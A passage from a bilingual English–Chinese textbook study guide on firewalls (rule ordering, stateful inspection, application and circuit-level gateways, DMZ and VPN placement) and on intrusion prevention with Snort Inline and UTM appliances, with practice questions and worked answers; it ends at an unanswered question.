| 7 | Any任意 | Any任意 | Any任意 | Deny拒绝 |
(a) Describe the effect of each rule. (b) Give the deciding rule and the action for: (i) external host to 192.168.1.1 port 2000; (ii) external host to 192.168.1.1 port 80; (iii) 192.168.1.1 to 8.8.8.8 port 53; (iv) 192.168.1.7 to 8.8.8.8 port 80; (v) external host to 192.168.1.2 port 25; (vi) external host to 192.168.1.3 port 22. (c) Which rule fails to do what was intended, and how do you fix it?(a) 描述每条规则的效果。(b) 给出下列各情形的决定规则及动作：(i) 外部主机到 192.168.1.1 端口 2000；(ii) 外部主机到 192.168.1.1 端口 80；(iii) 192.168.1.1 到 8.8.8.8 端口 53；(iv) 192.168.1.7 到 8.8.8.8 端口 80；(v) 外部主机到 192.168.1.2 端口 25；(vi) 外部主机到 192.168.1.3 端口 22。(c) 哪条规则没有达到预期效果？如何修正？
Answer
(a) Rule 1: outside hosts may reach ports above 1023 on every internal host (replies to inside clients, but also much more). Rule 2: host .1 may not send. Rule 3: nobody may send to .1. Rule 4: all other internal hosts may send anything anywhere. Rule 5: inbound SMTP to .2. Rule 6: inbound HTTP to .3. Rule 7: default deny.(a) 规则 1：外部主机可以访问每台内部主机上大于 1023 的端口（用于内部客户端的应答，但允许的远不止这些）。规则 2：主机 .1 不得发送任何数据。规则 3：任何人都不得向 .1 发送数据。规则 4：其他所有内部主机可以向任何地方发送任何内容。规则 5：允许入站 SMTP 到 .2。规则 6：允许入站 HTTP 到 .3。规则 7：默认拒绝。
(b) (i) rule 1, Allow. (ii) rule 3, Deny (rule 1 needs a port above 1023). (iii) rule 2, Deny. (iv) rule 4, Allow. (v) rule 5, Allow (rule 4 needs an internal source). (vi) rule 7, Deny.(b) (i) 规则 1，允许。(ii) 规则 3，拒绝（规则 1 要求端口大于 1023）。(iii) 规则 2，拒绝。(iv) 规则 4，允许。(v) 规则 5，允许（规则 4 要求内部源地址）。(vi) 规则 7，拒绝。
(c) Rule 3 is partly shadowed: case (i) reaches .1 through rule 1 although the intent was to block everything to .1. Move rule 3 above rule 1 (rule 2 already sits above rule 4).(c) 规则 3 被部分遮蔽：情形 (i) 仍通过规则 1 到达 .1，而本意是阻断一切发往 .1 的流量。应将规则 3 移到规则 1 之上（规则 2 已位于规则 4 之上）。
易错：顺序决定结果，宽松的规则放在前面会“盖住”后面的拒绝规则。
Q2. (Design) An internal test Web server 5.6.7.8 must never accept connections started from outside but may browse the Internet. Can a stateless packet filter do this? If so, give the rule.Q2.（设计）内部测试 Web 服务器 5.6.7.8 绝不允许接受从外部发起的连接，但可以访问互联网。包过滤器能否做到？若能，请给出规则。
Answer
Yes. A connection starts with a segment that has SYN set and ACK clear, while every segment of a connection that the server itself started comes back with ACK set. Rule 1: direction In, source any, destination 5.6.7.8, TCP, any port, flags SYN without ACK, action Deny. Rule 2: the normal site policy for everything else. The server's outgoing connections still work, because their replies (SYN+ACK, ACK) do not match rule 1. The filter must also apply the tiny-fragment countermeasure, otherwise a first fragment without the flags could hide a SYN.能。连接以设置了 SYN、清除了 ACK 的报文段开始；而服务器自己发起的连接，其每个返回的报文段都设置了 ACK。规则 1：方向为入站，源地址任意，目的地址为 5.6.7.8，协议为 TCP，端口任意，标志位为 SYN 且 ACK 清除，动作为拒绝。规则 2：其余流量适用站点的常规策略。服务器的出站连接仍可正常工作，因为它们的应答（SYN+ACK、ACK）不匹配规则 1。过滤器还必须应用极小分片的对策，否则不带标志位的首分片可能隐藏一个 SYN。
Q3. (Trace) The SMTP rule set serves the internal network 172.16.0.0/16. Decide each packet under three versions: (A) the original rules; (B) with source ports; (C) with source ports and ACK required on rules 2 and 4. P1: in, 192.168.3.4:1234 to 172.16.1.1:25, SYN. P2: out, 172.16.1.1:25 to 192.168.3.4:1234, SYN+ACK. P3: in, 10.1.2.3:5150 to 172.16.3.4:8080, SYN. P4: in, 10.1.2.3:25 to 172.16.3.4:8080, SYN.Q3.（手工演算）SMTP 规则集服务于内部网络 172.16.0.0/16。请在三种版本下分别判定每个数据包：(A) 原始规则；(B) 加入源端口；(C) 在加入源端口的基础上，要求规则 2 和规则 4 设置 ACK。P1：入站，192.168.3.4:1234 到 172.16.1.1:25，SYN。P2：出站，172.16.1.1:25 到 192.168.3.4:1234，SYN+ACK。P3：入站，10.1.2.3:5150 到 172.16.3.4:8080，SYN。P4：入站，10.1.2.3:25 到 172.16.3.4:8080，SYN。
Answer
P1 and P2 are normal mail traffic (a remote client and our server's reply) and pass by rules 1 and 2 in every version. P3 is an attacker connecting from port 5150 to the Web proxy: version A permits it by rule 4, so the attack succeeds; versions B and C deny it by rule 5, because no permit rule combines source port 5150 with destination port 8080. P4 is the same attack from source port 25: versions A and B permit it by rule 4, but version C denies it by rule 5, because the SYN has ACK clear and rule 4 requires ACK. Only version C stops both attacks.P1 和 P2 是正常的邮件流量（远程客户端及本服务器的应答），在各版本中都由规则 1 和规则 2 放行。P3 是攻击者从 5150 端口连接 Web 代理：版本 A 通过规则 4 放行，攻击得逞；版本 B 和版本 C 均由规则 5 拒绝，因为没有任何允许规则同时匹配源端口 5150 和目的端口 8080。P4 是从源端口 25 发起的同一攻击：版本 A 和版本 B 通过规则 4 放行，但版本 C 由规则 5 拒绝，因为该 SYN 的 ACK 为清除状态，而规则 4 要求 ACK。只有版本 C 能阻止这两种攻击。
思路：每个版本都从上到下找第一条匹配的规则；源端口 25 只是约定，真正挡住攻击的是 ACK 条件。
Stateful inspection and gateways ★★★状态检测与网关
Goal. Explain how a stateful firewall uses its connection table, describe how application-level and circuit-level gateways relay a connection, and compare the four firewall types.目标。 解释状态检测防火墙如何利用连接状态表，描述应用级网关和电路级网关如何中继连接，并比较四种防火墙类型。
Step 1: stateful packet inspection第 1 步：状态检测
In words: stateful inspection = a packet filter that also remembers which connections are open, so that only their replies come back in.用文字表述：状态检测 = 一种包过滤器，它还会记住哪些连接处于打开状态，只让这些连接的应答返回。
A traditional filter judges each packet alone. Replies return to the temporary port of the client, so a stateless filter must admit inbound traffic to every port above 1023. A stateful packet inspection firewall（状态检测防火墙）closes this hole. It keeps a connection table（连接状态表）with one entry for each established connection. It admits inbound traffic to a high port only if the traffic fits an entry.传统过滤器孤立地判断每个数据包。应答会返回客户端的临时端口，因此无状态过滤器必须允许入站流量访问所有大于 1023 的端口。状态检测防火墙堵住了这个漏洞。它维护一张连接状态表，每个已建立的连接对应一个表项。只有入站流量与某个表项相符时，才允许其访问高端口。
| Source数据源 | Src port源端口 | Destination目的地址 | Dest port目的端口 | State状态 |
|---|---|---|---|---|
| 192.168.1.100 | 1030 | 210.9.88.29 | 80 | Established已建立 |
| 192.168.1.101 | 1033 | 173.66.32.122 | 25 | Established已建立 |
| 223.43.21.231 | 1990 | 192.168.1.6 | 80 | Established已建立 |
A reply from 210.9.88.29 port 80 to 192.168.1.100 port 1030 matches entry 1 and passes. The same sender to port 1031 matches nothing and is dropped. A packet from 66.6.6.6 to port 1030 is also dropped, because the sender is not the server of the entry.来自 210.9.88.29 端口 80、发往 192.168.1.100 端口 1030 的应答与表项 1 匹配，允许通过。同一发送方发往 1031 端口的数据包不与任何表项匹配，被丢弃。来自 66.6.6.6 发往 1030 端口的数据包也会被丢弃，因为发送方不是该表项的服务器。
The firewall checks the same fields as a packet filter and also records the TCP connection state. Some products track TCP sequence numbers to stop attacks that depend on them, such as session hijacking. Some read limited application data (FTP, HTTP, IM, SIP) to identify related connections.防火墙检查的字段与包过滤器相同，此外还记录 TCP 连接状态。有些产品跟踪 TCP 序列号，以阻止依赖序列号的攻击，例如会话劫持。有些产品读取有限的应用数据（FTP、HTTP、即时通讯、SIP），以识别相关连接。
Step 2: application-level gateway第 2 步：应用级网关
In words: application-level gateway = a proxy that understands one application and makes a second connection for you.用文字表述：应用级网关 = 一个理解某种应用、并替你再建立一条连接的代理。
An application-level gateway（应用层网关）, also called an application proxy, relays application traffic. It works in five steps.应用级网关也称应用代理，它中继应用流量。工作分为五步。
- The user connects to the gateway with a browser or FTP client.用户用浏览器或 FTP 客户端连接网关。
- The gateway asks for the remote host name and authenticates the user.网关要求用户给出远程主机名，并对用户进行认证。
- The gateway opens its own connection to the remote application.网关与远程应用建立自己的连接。
- The gateway relays the data between the two connections.网关在两条连接之间中继数据。
- Only the allowed features of a supported application pass. An application without proxy code is not supported.只有受支持应用中被允许的功能才能通过。没有代理代码的应用不受支持。
Example: the gateway for HTTP allows GET and blocks POST. It logs which user made each request. A packet filter cannot do this, because it cannot read the HTTP command.例：HTTP 网关允许 GET，阻止 POST，并记录每个请求是哪个用户发出的。包过滤器做不到这一点，因为它无法读取 HTTP 命令。
The gateway is more secure than a packet filter. It scrutinises a few allowed applications and not every TCP/IP combination. Logging and auditing at application level are easy. The price is processing overhead: two spliced connections, with all traffic examined and forwarded in both directions.这种网关比包过滤器更安全，因为它只审查少数被允许的应用，而不是每一种 TCP/IP 组合。应用层的日志记录和审计也很容易。代价是处理开销：要维持两条被拼接起来的连接，所有流量都要在两个方向上被检查和转发。
Step 3: circuit-level gateway第 3 步：电路级网关
In words: circuit-level gateway = a relay that decides only whether a connection may exist and then passes its segments along without reading them.用文字表述：电路级网关 = 一个只判断连接能否存在、然后在不读取内容的情况下转发报文段的中继。
A circuit-level gateway（电路级网关）also sets up two TCP connections, one to the inner host and one to the outside host. It relays the TCP segments without examining their contents. Its security function is to decide which connections are allowed. If the internal users are trusted, a gateway can apply proxy inspection to inbound connections and plain relaying to outbound ones. That avoids overhead on outgoing data.电路级网关同样建立两条 TCP 连接，一条连内部主机，一条连外部主机。它中继 TCP 报文段，但不检查其内容。它的安全功能是决定允许哪些连接。如果内部用户可信，网关可以对入站连接进行代理检查，对出站连接只做简单中继，从而避免对外发数据造成开销。
SOCKS version 5 is the standard example. It is a shim layer between the application and transport layers. It has three parts: a SOCKS server on the firewall (TCP port 1080), a client library on internal hosts, and SOCKS-ified client programs. The client connects to the server, authenticates and sends a relay request. The server grants or denies it.SOCKS 第 5 版是标准示例。它位于应用层和传输层之间，是一个垫片层。它由三部分组成：防火墙上的 SOCKS 服务器（TCP 1080 端口）、内部主机上的客户端库，以及经过 SOCKS 改造的客户端程序。客户端连接服务器，完成认证并发送中继请求。服务器决定批准还是拒绝。
Step 4: the four types compared第 4 步：四种类型的比较
| Type类型 | Examines检查对象 | Connection连接 | Strength优势 | Weakness缺点 |
|---|---|---|---|---|
| Packet filter包过滤器 | IP and TCP/UDP headers, per packet逐包检查 IP 及 TCP/UDP 首部 | passes through直接转发 | fast, simple快速、简单 | no context or payload; spoofing无上下文和载荷信息；易受欺骗 |
| Stateful inspection状态检测 | headers plus connection table (and some application data)首部加连接状态表（部分还包括应用数据） | passes through直接转发 | admits only replies to established connections只允许已建立连接的应答通过 | table memory; limited application insight占用表项内存；对应用的洞察有限 |
| Application-level gateway应用层网关 | application protocol data应用协议数据 | two connections, spliced at the application layer两条连接，在应用层拼接 | finest control, user authentication, logging控制最精细，支持用户认证和日志记录 | overhead; one proxy per application开销大；每种应用需要一个代理 |
| Circuit-level gateway电路级网关 | connection setup only, not contents只检查连接建立过程，不检查内容 | two TCP connections, segments relayed两条 TCP 连接，中继报文段 | little overhead; user authentication (SOCKS)开销小；支持用户认证（SOCKS） | no content inspection不检查内容 |
Practice练习
Q1. (Table lookup) A stateful firewall holds the three-entry connection table of this section. Decide each packet: (a) 210.9.88.29:80 to 192.168.1.100:1030; (b) 210.9.88.29:80 to 192.168.1.100:1031; (c) 173.66.32.122:25 to 192.168.1.101:1033; (d) 66.6.6.6:4000 to 192.168.1.100:1030; (e) 192.168.1.6:80 to 223.43.21.231:1990. Which of these would a stateless filter with the rule "permit inbound TCP to ports above 1023" pass wrongly?Q1.（查表）一台状态防火墙保存着本节中的三条目连接状态表。请判定每个数据包：(a) 210.9.88.29:80 到 192.168.1.100:1030；(b) 210.9.88.29:80 到 192.168.1.100:1031；(c) 173.66.32.122:25 到 192.168.1.101:1033；(d) 66.6.6.6:4000 到 192.168.1.100:1030；(e) 192.168.1.6:80 到 223.43.21.231:1990。在这些数据包中，哪些会被使用规则“允许入站 TCP 访问大于 1023 的端口”的无状态过滤器错误地放行？
Answer
(a) Permit: reply to entry 1. (b) Drop: no entry with client port 1031. (c) Permit: reply to entry 2. (d) Drop: the source is not the server of the entry. (e) Permit: the server's reply on the inbound connection of entry 3. The stateless rule would also pass (b) and (d), because it checks only that the destination port exceeds 1023.(a) 放行：是条目 1 的应答。(b) 丢弃：没有客户端端口为 1031 的条目。(c) 放行：是条目 2 的应答。(d) 丢弃：源地址不是该条目的服务器。(e) 放行：是条目 3 中入站连接的服务器应答。无状态规则还会放行 (b) 和 (d)，因为它只检查目的端口是否大于 1023。
Q2. (True or false) Justify each: (a) A circuit-level gateway can block one particular HTTP command. (b) An application-level gateway can only support applications for which it has proxy code. (c) A stateful firewall must admit all inbound packets to ports above 1023.Q2.（判断）逐条说明理由：(a) 电路级网关可以阻断某一特定的 HTTP 命令。(b) 应用层网关只能支持其具有代理代码的应用。(c) 状态防火墙必须允许所有访问大于 1023 端口的入站数据包。
Answer
(a) False. It relays TCP segments without examining the contents and only decides which connections are allowed. (b) True. A service without proxy code cannot be forwarded, and for supported services only the allowed features pass. (c) False. It admits an inbound packet only if it matches an entry in the connection table.(a) 错。它只中继 TCP 报文段而不检查内容，只决定允许哪些连接。(b) 对。没有代理代码的服务无法被转发；对于受支持的服务，也只有获准的功能才能通过。(c) 错。只有与连接状态表中的某个条目匹配的入站数据包才会被放行。
Q3. (Beyond the text) In active-mode FTP the client opens a control connection to server port 21 and announces a port N with the PORT command; the server then opens the data connection from its port 20 to client port N. (a) Why can a stateless filter in front of the client not handle this safely? (b) How does a stateful firewall with application inspection handle it?Q3.（超出教材内容）在主动模式 FTP 中，客户端与服务器的 21 端口建立控制连接，并通过 PORT 命令通告端口 N；随后服务器从其 20 端口向客户端的 N 端口建立数据连接。(a) 为什么位于客户端前方的无状态过滤器无法安全地处理这种情况？(b) 带应用检查功能的状态防火墙如何处理？
Answer
(a) The data connection is a new inbound connection request (SYN, ACK clear), so the ACK trick cannot separate it from an attack. The filter must allow inbound segments from source port 20 to every port above 1023, and an attacker can imitate source port 20. (b) The firewall reads the PORT command on the control connection and adds a temporary entry that admits exactly one connection from the server's port 20 to the client's port N, removing it when that connection ends. Related connections are tracked without a general hole. Passive mode avoids the problem because the client opens both connections.(a) 数据连接是一个新的入站连接请求（SYN 置位，ACK 清除），因此 ACK 技巧无法将其与攻击区分开来。过滤器必须允许源端口为 20 的入站报文段访问每个大于 1023 的端口，而攻击者可以伪装成源端口 20。(b) 防火墙读取控制连接上的 PORT 命令，并添加一个临时条目，只允许从服务器的 20 端口到客户端 N 端口的那一条连接通过；该连接结束时删除此条目。相关连接得到跟踪，而无需设置一般性的漏洞。被动模式则避免了这一问题，因为两条连接都由客户端发起。
Firewall basing ★防火墙的部署形式
Where a firewall runs. Four kinds:防火墙运行的位置。共四种：
| Kind类型 | What to know要知道什么 |
|---|---|
| Bastion host（堡垒主机） | A critical strong point of the network, with a hardened operating system and only essential services. Hosts application-level or circuit-level gateways. Each proxy is small, logs every connection and runs as a non-privileged user. A proxy reads the disk only for its configuration, so executable code can be read-only网络中关键的强点，采用加固的操作系统，只运行必要的服务。承载应用级网关或电路级网关。每个代理都很小，记录每个连接，并以非特权用户身份运行。代理只在读取配置时访问磁盘，因此可执行代码可以设为只读 |
| Host-based firewall（主机防火墙） | Software on a server or workstation. Rules are tailored to the host. Protection does not depend on the network topology运行在服务器或工作站上的软件。规则按主机定制。保护效果不依赖网络拓扑 |
| Network device and virtual firewalls网络设备防火墙和虚拟防火墙 | Packet filtering and stateful inspection in routers, switches or the hypervisor of a virtualised environment, as extra layers在路由器、交换机或虚拟化环境的虚拟机监控器中实现包过滤和状态检测，作为额外的防护层 |
| Personal firewall（个人防火墙） | Software on a PC or in a home router. Inbound connections are usually denied unless the user permits the service. Outbound ones are usually allowed运行在 PC 上或家用路由器中的软件。入站连接通常被拒绝，除非用户允许该服务。出站连接通常被允许 |
Practice练习
Q1. (Scenario) An employee uses a laptop on café Wi-Fi. (a) Why does the corporate perimeter firewall not protect it? (b) Which firewall does, and what default policy and further features should it use?Q1.（情景分析）某员工在咖啡馆的无线网络上使用笔记本电脑。(a) 为什么企业边界防火墙无法保护它？(b) 应由哪种防火墙进行保护？它应采用什么默认策略，并具备哪些进一步的功能？
Answer
(a) The traffic never passes the corporate firewall: a firewall cannot protect against attacks that bypass it. (b) A personal (host-based) firewall such as Windows Firewall, netfilter or pf. Default: deny all inbound connections except services the user explicitly permits, allow outbound. Further features: stealth mode (drop unsolicited packets), logging, and monitoring of outgoing traffic to block worms.(a) 这些流量从未经过企业防火墙：防火墙无法防范绕过它的攻击。(b) 个人（基于主机的）防火墙，例如 Windows 防火墙、netfilter 或 pf。默认策略：拒绝所有入站连接，用户明确允许的服务除外；允许出站连接。进一步的功能包括：隐身模式（丢弃未经请求的数据包）、日志记录，以及监视出站流量以阻断蠕虫。
DMZ, VPN and distributed firewalls ★★★隔离区、VPN 与分布式防火墙
Goal. Draw a double bastion layout with a DMZ and place the systems of a company in it. Give the three purposes of the internal firewall, say where the VPN end point belongs, and compare the firewall topologies.目标。 画出带 DMZ 的双堡垒布局，并把公司的各类系统放入其中。说明内部防火墙的三个作用，指出 VPN 端点应放在哪里，并比较防火墙的拓扑结构。
Step 1: the DMZ第 1 步：DMZ
In words: DMZ = a middle zone between two firewalls, where the servers that the public must reach are kept, so that a break-in there does not open the inside.用文字表述：DMZ = 两道防火墙之间的中间区域，放置公众必须访问的服务器，这样即使这里被攻破，内部也不会暴露。
An external firewall sits at the network edge, just inside the boundary router. One or more internal firewalls protect the bulk of the enterprise network. Between them lies the demilitarized zone (DMZ)（非军事区）. It holds externally accessible systems that need some protection: the corporate Web server, the e-mail server and the DNS server.外部防火墙位于网络边缘，紧接在边界路由器内侧。一个或多个内部防火墙保护企业网络的主体。两者之间是隔离区（DMZ）。这里放置需要对外访问、同时又需要一定保护的系统，例如企业 Web 服务器、电子邮件服务器和 DNS 服务器。

The external firewall controls access to the DMZ systems according to their need for external connectivity. It also gives the internal network basic protection. The internal firewalls serve three purposes.外部防火墙根据系统对外部连接的需要控制对 DMZ 系统的访问，同时也为内部网络提供基本保护。内部防火墙有三个作用。
- Stricter filtering than the external firewall, to protect enterprise servers and workstations from external attack.比外部防火墙更严格的过滤，保护企业服务器和工作站免受外部攻击。
- Two-way protection with respect to the DMZ. The internal network is shielded from attacks launched from compromised DMZ systems (worms, rootkits, bots). The DMZ is shielded from attacks launched from the internal network.对 DMZ 的双向保护。 内部网络能防范被攻破的 DMZ 系统发起的攻击（蠕虫、rootkit、僵尸程序）。DMZ 也能防范来自内部网络的攻击。
- Separation of internal segments from each other, for example servers from workstations.内部网段之间的隔离，例如服务器与工作站之间的隔离。
Step 2: where the VPN ends第 2 步：VPN 在哪里结束
In words: the VPN should end on the firewall, so that the traffic is decrypted before the firewall checks it.用文字表述：VPN 应当在防火墙上结束，这样流量在被防火墙检查之前已经解密。
The IPsec device at the site boundary encrypts and authenticates the traffic that goes to the WAN (wide-area network) and decrypts the traffic that comes from it. Hosts do not notice. Remote users run IPsec on their own workstations. They need strong host security, because they connect directly to the Internet.站点边界的 IPsec 设备对发往广域网（WAN）的流量进行加密和认证，并对来自广域网的流量进行解密。主机不会察觉这一过程。远程用户在自己的工作站上运行 IPsec。由于他们直接连接互联网，因此需要很强的主机安全。

There are three places for the IPsec device.IPsec 设备有三种放置位置。
| Place位置 | Result结果 |
|---|---|
| On the firewall防火墙上 | Best. Decrypted traffic is filtered, controlled, logged and scanned for viruses最好。解密后的流量可以被过滤、控制、记录，并进行病毒扫描 |
| In a separate box behind the firewall防火墙后面的独立设备 | The VPN traffic crosses the firewall encrypted, so the firewall cannot filter, control, log or virus-scan itVPN 流量以加密形式穿过防火墙，因此防火墙无法过滤、控制、记录或进行病毒扫描 |
| In the boundary router outside the firewall防火墙外侧的边界路由器上 | The router is a less secure device路由器是安全性较低的设备 |
Step 3: distributed firewalls and topologies第 3 步：分布式防火墙与拓扑结构
A distributed firewall（分布式防火墙）combines stand-alone firewalls, external and internal, with host-based and personal firewalls under central administration. Administrators set the policy and monitor all hosts. This guards against internal attacks and tailors protection to machines and applications.分布式防火墙把独立的外部和内部防火墙，与基于主机的防火墙和个人防火墙组合在一起，并由中央统一管理。管理员设定策略并监控所有主机。这样既能防范内部攻击，又能根据主机和应用定制保护。
| Topology拓扑结构 | Description and typical use说明与典型用途 |
|---|---|
| Host-resident firewall驻留主机的防火墙 | firewall software on hosts, alone or within defence in depth主机上的防火墙软件，可单独使用，也可作为纵深防御的一部分 |
| Screening router屏蔽路由器 | one router with stateless or full packet filtering; small office or home office一台采用无状态或完整包过滤的路由器；小型办公室或家庭办公室 |
| Single bastion inline单堡垒串接式 | one stateful or proxy firewall between an internal and an external router; small to medium organisations内部路由器与外部路由器之间的一台状态防火墙或代理防火墙；中小型企业 |
| Single bastion T单堡垒 T 型 | single bastion with a third interface to the DMZ; medium to large organisations带有通往隔离区的第三个接口的单堡垒；中大型企业 |
| Double bastion inline双堡垒串接式 | DMZ between two bastion firewalls; large businesses and government隔离区位于两台堡垒防火墙之间；大型企业和政府机构 |
| Double bastion T双堡垒 T 型 | DMZ on its own interface of the bastion firewall; large businesses and government, sometimes required隔离区连接堡垒防火墙的独立接口；大型企业和政府机构，有时为强制要求 |
| Distributed分布式 | the above plus host-based firewalls under central control; some large organisations在以上基础上增加集中控制下的基于主机的防火墙；部分大型组织 |
Practice练习
Q1. (Design) A company has a public Web server, a mail relay, a DNS server, employee workstations and an HR database. Place each on a double bastion inline layout and state what each firewall allows.Q1.（设计）某公司有一台公网 Web 服务器、一台邮件中继服务器、一台 DNS 服务器、员工工作站和一个人力资源数据库。请将它们分别放入双堡垒串接式布局中，并说明每台防火墙允许哪些流量。
Answer
DMZ (between the firewalls): Web server, mail relay and DNS server. Internal network (behind the internal firewall): workstations and HR database; the database never sits in the DMZ. External firewall: Internet to DMZ only for HTTP/HTTPS to the Web server, SMTP to the mail relay and DNS to the DNS server; everything else is denied. Internal firewall: workstations may use the DMZ services (mail relay for e-mail); DMZ to internal only for the specific flows that are needed; nothing from the Internet goes directly to the internal network.隔离区（位于两台防火墙之间）：Web 服务器、邮件中继服务器和 DNS 服务器。内部网络（位于内部防火墙之后）：工作站和人力资源数据库；数据库绝不放在隔离区中。外部防火墙：互联网仅可访问隔离区中的 Web 服务器（HTTP/HTTPS）、邮件中继服务器（SMTP）和 DNS 服务器（DNS），其他一律拒绝。内部防火墙：工作站可以使用隔离区的服务（邮件使用邮件中继服务器）；隔离区到内部网络仅允许必需的特定流量；来自互联网的流量不得直接进入内部网络。
Q2. (Compare) Compare the single bastion T and the double bastion inline layouts in security and cost.Q2.（比较）从安全性和成本两方面比较单堡垒 T 型与双堡垒串接式布局。
Answer
Single bastion T: one firewall with three interfaces (Internet, internal, DMZ). It is cheaper and easier to manage, but one device and one policy protect all zones, so a compromise or misconfiguration exposes everything. Double bastion inline: the DMZ lies between two firewalls, so an attacker must defeat two devices (possibly with different configurations) to reach the internal network, and the internal firewall limits the damage from a compromised DMZ server. It costs more to buy and manage, which is why it is typical for large businesses and government.单堡垒 T 型：一台防火墙带有三个接口（互联网、内部网络、隔离区）。它成本较低，也更易于管理，但一台设备、一套策略保护所有区域，因此一旦被攻陷或配置错误，所有区域都会暴露。双堡垒串接式：隔离区位于两台防火墙之间，攻击者必须突破两台设备（二者配置可能不同）才能到达内部网络，并且内部防火墙可以限制被攻陷的隔离区服务器所造成的损害。其采购和管理成本更高，因此是大型企业和政府机构的典型选择。
Intrusion prevention and UTM ★★入侵防御与 UTM
Goal. Define an IPS and tell it from an IDS and a firewall. Compare host-based and network-based IPS, match the five NIPS detection methods to cases, choose a Snort Inline action, and say what a UTM is.目标。 定义 IPS，并说明它与 IDS 和防火墙的区别。比较基于主机和基于网络的 IPS，把五种 NIPS 检测方法与对应场景配对，为 Snort Inline 选择一个动作，并说明什么是 UTM。
An intrusion prevention system (IPS)（入侵防御系统）is an intrusion detection system (IDS)（入侵检测系统）that can also block what it detects. An IDS (Section 22.2) only detects and raises an alarm. An IPS modifies or blocks packets across a perimeter or into a host, or blocks the system calls of programs. A firewall decides by policy rules on what traffic is permitted. An IPS decides by detected malicious content or behaviour. Like an IDS, an IPS can be host-based, network-based or hybrid.入侵防御系统（IPS）是一种能够阻断所检测到攻击的入侵检测系统（IDS）。IDS（见第 22.2 节）只检测并发出警报。IPS 则在边界或主机入口处修改或阻断数据包，或阻断程序的系统调用。防火墙根据策略规则决定允许哪些流量；IPS 则根据检测到的恶意内容或行为做决定。与 IDS 一样，IPS 可以是基于主机的、基于网络的或混合的。
Step 1: three kinds of IPS第 1 步：三种 IPS
In words: HIPS watches one host from inside, NIPS watches the traffic from the middle of the network, a hybrid joins both.用文字表述：HIPS 从主机内部监视一台主机，NIPS 从网络中间监视流量，混合型则两者兼有。
| Kind类型 | What it does作用 |
|---|---|
| HIPS（主机型入侵防御） | Runs on the host. Targets modification of system resources (libraries, registry, accounts), privilege escalation, buffer overflows and directory traversal. For mobile code such as scripts it can use a sandbox（沙箱）: the code runs in an isolated area and is halted if it violates policy运行在主机上。针对系统资源（库、注册表、账户）的修改、权限提升、缓冲区溢出和目录遍历。对于脚本等移动代码，它可以使用沙箱：代码在隔离区域中运行，一旦违反策略即被终止 |
| NIPS（网络型入侵防御） | An inline network IDS that may modify or discard packets and tear down TCP connections. It reassembles the payload of a flow. Once the flow is judged malicious, it drops that packet and all later ones一种内联的网络 IDS，可以修改或丢弃数据包，并拆除 TCP 连接。它会重组数据流的载荷。一旦判定数据流为恶意，就丢弃该数据包及之后的所有数据包 |
| Hybrid IPS混合式 IPS | Collects data from many host and network sensors, correlates it centrally and returns updated signatures to all systems从众多主机和网络传感器收集数据，集中关联分析，并把更新后的特征发回所有系统 |
Step 2: NIPS detection methods第 2 步：NIPS 的检测方法
Five methods are used.共使用五种方法。
| Method方法 | Looks for检测依据 |
|---|---|
| Pattern matching模式匹配 | byte sequences (signatures) of known attacks已知攻击的字节序列（特征码） |
| Stateful matching状态匹配 | signatures in the context of a traffic stream, not of single packets在流量流的上下文中匹配特征码，而非针对单个数据包 |
| Protocol anomaly协议异常 | deviation from the standards in the RFCs偏离 RFC 中规定的标准 |
| Traffic anomaly流量异常 | unusual activity, such as a flood of UDP packets or a new service异常活动，例如大量 UDP 数据包洪泛或出现新服务 |
| Statistical anomaly统计异常 | deviation from baselines of normal traffic and throughput偏离正常流量和吞吐量的基线 |
Example: a worm byte pattern is found by pattern matching. An exploit string split over two TCP segments needs stateful matching, because the signature is visible only in the reassembled stream. A packet with SYN and FIN both set breaks the TCP standard, so it is a protocol anomaly.例：蠕虫的字节模式用模式匹配发现。一个被拆分到两个 TCP 报文段中的攻击串需要有状态匹配，因为特征只有在重组后的数据流中才可见。一个同时置 SYN 和 FIN 的数据包违反 TCP 标准，因此属于协议异常。
Step 3: Snort Inline and UTM第 3 步：Snort Inline 与 UTM
Snort Inline adds three rule actions. drop rejects the packet and logs it. reject rejects and logs, and returns a TCP reset or an ICMP port unreachable message. sdrop rejects without logging. Its replace option rewrites packet content so that an attack fails. Snort must run inline, in the packet path, to discard packets. To block instead of alert, change only the action word: drop tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";).Snort Inline 增加了三种规则动作。drop 拒绝数据包并记录日志。reject 拒绝并记录日志，并返回 TCP 复位或 ICMP 端口不可达消息。sdrop 拒绝但不记录日志。它的 replace 选项会改写数据包内容，使攻击失效。Snort 必须内联运行，即位于数据包路径上，才能丢弃数据包。若要阻断而非仅告警，只需修改动作关键字：drop tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";)。
A UTM（统一威胁管理）appliance integrates firewall, IDS/IPS, VPN, gateway antivirus and antispam in one box. It reduces administration and the delay of chained devices. Its drawback is performance: the typical throughput loss is 50%.统一威胁管理（UTM）设备把防火墙、IDS/IPS、VPN、网关防病毒和反垃圾邮件集成在一个盒子里。它减少了管理工作量，也减少了串联多个设备带来的延迟。其缺点是性能：典型的吞吐量损失为 50%。
Practice练习
Q1. (Match) Which NIPS detection method detects each case: (a) a known worm byte pattern; (b) an exploit string split over two TCP segments; (c) a flood of UDP packets; (d) a packet with SYN and FIN both set; (e) traffic volume far above the learned baseline?Q1.（匹配）下列各情形分别由哪种 NIPS 检测方法识别：(a) 已知蠕虫的字节模式；(b) 分割在两个 TCP 报文段中的漏洞利用字符串；(c) UDP 数据包洪泛；(d) SYN 与 FIN 同时置位的数据包；(e) 流量远高于已学习基线的情况？
Answer
(a) Pattern matching. (b) Stateful matching, because the signature appears only in the reassembled stream. (c) Traffic anomaly. (d) Protocol anomaly, since the flag combination violates the TCP specification. (e) Statistical anomaly.(a) 模式匹配。(b) 状态匹配，因为该特征码只出现在重组后的流中。(c) 流量异常。(d) 协议异常，因为该标志位组合违反了 TCP 规范。(e) 统计异常。
Q2. (Snort Inline) Choose the action: (a) drop an attack packet and log it; (b) drop flood packets without filling the log; (c) drop the packet and reset the TCP connection; (d) rewrite an exploit payload so that it fails. Then change alert tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";) so that it blocks the packets.Q2.（Snort Inline）选择相应动作：(a) 丢弃攻击数据包并记录日志；(b) 丢弃洪泛数据包，且不使日志被填满；(c) 丢弃数据包并复位 TCP 连接；(d) 改写漏洞利用的净荷，使其失效。然后修改 alert tcp $EXTERNAL_NET any -> $HOME_NET any (flags:SF; msg:"SYN-FIN";)，使其能够阻断这些数据包。
Answer
